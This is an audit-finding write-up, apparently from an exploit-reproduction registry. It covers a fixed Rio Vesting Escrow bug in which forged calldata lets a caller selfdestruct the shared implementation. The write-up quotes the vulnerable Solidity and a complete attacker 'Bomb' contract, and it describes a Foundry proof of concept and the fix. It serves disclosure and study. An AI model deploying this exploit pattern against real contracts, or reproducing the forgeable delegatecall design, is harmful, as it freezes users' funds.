


# Rio Vesting Escrow — vaults can be bricked by selfdestruct()ing implementations

> **Vulnerability classes:** vuln/access-control/forgeable-immutable-args · vuln/logic/delegatecall-target-confusion · vuln/loss-of-funds/frozen-funds

> **Reproduction:** a self-contained Foundry PoC that compiles & runs in an
> isolated project with **only `forge-std`** — no fork, no RPC, no `anvil_state`.
> Full trace: [output.txt](output.txt). PoC:
> [test/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations_exp.sol](test/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations_exp.sol).

<!-- non-defihacklabs -->
<!-- source-auditvault: https://github.com/Auditware/AuditVault/blob/main/findings/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations.md -->
<!-- date: 2024-01 -->

---

## Key info

| | |
|---|---|
| **Impact** | **HIGH** — any caller can self-destruct the SHARED VestingEscrow implementation that every escrow "clone" delegatecalls, permanently bricking every vault and freezing vested-but-unwithdrawn tokens |
| **Protocol** | [Rio Vesting Escrow](https://github.com/rio-org/rio-vesting-escrow) — clone-with-immutable-args vesting/voting escrow |
| **Vulnerable code** | `VestingEscrow.vote()` — delegatecalls a target resolved from `factory()`/`recipient()`, both read from a caller-forgeable calldata tail |
| **Bug class** | Trusting "immutable" args that are actually just calldata a caller controls when calling the implementation directly (bypassing the proxy) |
| **Finding** | Sherlock — Rio Vesting Escrow, 2024-01 · #29688 (H-1) · reporter **IllIllI** |
| **Report** | [2024-01-rio-vesting-escrow-judging](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow-judging/issues/60) |
| **Source** | [AuditVault](https://github.com/Auditware/AuditVault/blob/main/findings/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations.md) |
| **Status** | Audit finding — acknowledged, fixed in [rio-org/rio-vesting-escrow#6](https://github.com/rio-org/rio-vesting-escrow/pull/6). Reproduced here as a standalone local PoC. |
| **Compiler** | `^0.8.24` (PoC and real code) |

This is an **audit finding**, not a historical on-chain incident. The real
Rio escrow uses a clone-with-immutable-args pattern very close to Solady's
`Clone.sol`; the PoC reproduces the `factory()`/`recipient()`/`vote()` logic
faithfully with a fixed-length calldata-tail scheme standing in for Solady's
dynamic length-suffix encoding (see file header for why).

---

## TL;DR

1. Every Rio escrow "clone" is a thin proxy that DELEGATECALLs a single
   SHARED implementation contract for all of its logic.
2. That implementation reads its own `factory()` and `recipient()`
   "immutable" identity from the tail of `msg.data` — bytes a legitimate
   proxy always appends the same way on every forwarded call.
3. Nothing stops a caller from calling the implementation **directly**
   (bypassing the proxy) with a **hand-forged** calldata tail.
4. An attacker names themselves `recipient()` (bypassing the `onlyRecipient`
   modifier, since `msg.sender` is themselves too) and points `factory()` at
   their own contract, so `_votingAdaptor()` — which asks the factory —
   resolves to attacker code.
5. `vote()`'s delegatecall then executes fully attacker-controlled code
   **with the implementation's own address/storage identity** — including a
   `selfdestruct`. **HARM**: the shared implementation is destroyed;
   every clone that delegates to it is permanently bricked.

---

## The vulnerable code

`VestingEscrow.sol#factory` / `#vote` (verbatim, per the finding):

```solidity
/// @notice The factory that created this VestingEscrow instance.
function factory() public pure returns (IVestingEscrowFactory) {
    return IVestingEscrowFactory(_getArgAddress(0));   // @> immutable arg read from calldata tail
}

/// @notice Participate in a governance vote using all available tokens on the contract's balance.
function vote(bytes calldata params) external onlyRecipient whenVotingAdaptorIsSet returns (bytes memory) {
    return _votingAdaptor().functionDelegateCall(abi.encodeCall(IVotingAdaptor.vote, (params)));
    // @> delegatecall target resolved from the forgeable factory()/recipient() above
}
```

Per the finding's own thread, `recipient()` is read from
`_getArgAddress(40)`, and `_votingAdaptor()` asks the (also forgeable)
`factory()` for its voting adaptor — so forging `factory()` alone redirects
both the authorization check's implicit trust AND the delegatecall target.

The attacker's forged direct call (verbatim from the finding's own `Bomb`
PoC):

```solidity
contract Bomb {
    function attack(address impl) external {
        (bool success, ) = impl.call(abi.encodePacked(
            bytes4(keccak256("vote(bytes)")), bytes32(0),
            address(this), address(this), address(this),   // forged factory/recipient
            uint40(block.timestamp), uint40(block.timestamp + 1), uint40(0), uint40(1), uint16(82)
        ));
        require(success);
    }
    function votingAdaptor() external view returns (address) { return address(this); }
    function vote(bytes calldata) external {
        selfdestruct(payable(address(0)));
    }
}
```

---

## Root cause

The clone-with-immutable-args pattern is unsafe whenever one of the
"immutable" arguments controls an address that gets `delegatecall`'d. The
values are only immutable in the sense that a LEGITIMATE proxy always
appends the same bytes — they are ordinary calldata, fully controlled by
whoever calls the implementation directly.

## Preconditions

- The shared implementation contract is deployed and reachable by direct
  call (true by construction — it must be, for the proxies to delegatecall
  it).
- No guard restricts the implementation's own entry points to
  delegatecall-only execution (the project's fix adds exactly this).

## Attack walkthrough

From [output.txt](output.txt), reproducing the finding's own attack:

1. The shared `VestingEscrowVuln` implementation is deployed — every escrow
   clone in the protocol delegatecalls it for voting/revocation/withdrawal
   logic.
2. The implementation is funded with 1 ETH (a PoC-only step, purely so the
   coming destruction has an immediately observable on-chain effect — see
   note below).
3. `Bomb.attack()` calls `vote()` on the implementation DIRECTLY, with a
   forged calldata tail: `recipient()` = Bomb itself (satisfies
   `onlyRecipient`, since Bomb is also `msg.sender`), `factory()` = Bomb
   itself.
4. `_votingAdaptor()` resolves to Bomb (via the forged `factory()`), so
   `vote()`'s delegatecall executes Bomb's code — **with the
   implementation's own identity** (`address(this) == impl` throughout the
   delegatecall chain).
5. **HARM**: Bomb's delegatecalled code runs `selfdestruct`, targeting the
   implementation. Its ETH balance is forced to zero — proof the opcode
   fired against the implementation's own identity. The SAME call queues
   the implementation's code and storage for deletion (a certain outcome
   once the transaction lands, since it was created in this very
   transaction — EIP-6780's same-tx rule applies). Every clone delegating to
   this now-empty address will trivially "succeed" on every call while
   executing NOTHING — voting, revocation, and withdrawal logic is
   permanently gated behind a silent no-op, freezing every clone's
   already-vested-but-unwithdrawn tokens. Control tests confirm a
   legitimate clone (using its OWN real, non-forged immutable args) votes
   normally, and a bare direct call with no forged args reverts — proving
   the bypass specifically requires the forged calldata tail.

## Diagrams





## Remediation

Per the project's actual fix
([rio-org/rio-vesting-escrow#6](https://github.com/rio-org/rio-vesting-escrow/pull/6)):
never rely on a forgeable calldata-derived value for anything that gets
delegatecall'd. Add an `onlyDelegateCall`-style guard (mirroring OpenZeppelin's
UUPS pattern) on `vote()`/`voteWithReason()`/`_delegate()`, using a real
`immutable` contract variable set at construction time to detect and reject
direct calls to the implementation.

## How to reproduce

```bash
cd ~/RustroverProjects/audits/evm-hack-registry/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations_exp
forge test -vvv
# Fully local — no fork, no RPC, no anvil_state required.
# Expected: all three tests PASS:
#   test_control_legitimateCloneVotesNormally      (control: honest clone works)
#   test_control_directCallWithoutForgedArgs_reverts (control: bare direct call reverts)
#   test_selfdestructBricksImplementation           (attack: forged direct call destroys the implementation)
```

PoC source: [test/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations_exp.sol](test/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations_exp.sol)
— the verbatim vulnerable `factory()`/`recipient()`/`vote()` logic, the
attacker's `Bomb`, a legitimate `VestingEscrowClone` (control), and two
control tests.

> Note on observability: SELFDESTRUCT's code/storage deletion is deferred to
> the END of the transaction by the EVM — it cannot be observed mid-call.
> This is the EXACT limitation the finding's own PoC hit: *"Because of a
> foundry bug the test is not able to show the end result of the
> selfdestruct(), so I've added a print statement."* This PoC instead proves
> the same underlying fact via an immediately observable channel: the
> implementation is force-funded with ETH before the attack, and its balance
> is asserted to hit zero afterward — mechanical proof that SELFDESTRUCT
> fired with the implementation's own identity. Because the implementation
> is created in this same transaction, EIP-6780's same-tx rule means the
> code/storage deletion is a certain, deferred consequence of that same
> opcode call.

---

*Reference: finding **#29688 [H-1]** by **IllIllI** in the [Sherlock Rio Vesting Escrow audit (Jan 2024)](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow-judging/issues/60) · curated by [AuditVault](https://github.com/Auditware/AuditVault/blob/main/findings/29688-h-1-vaults-can-be-bricked-by-selfdestructing-implementations.md)*
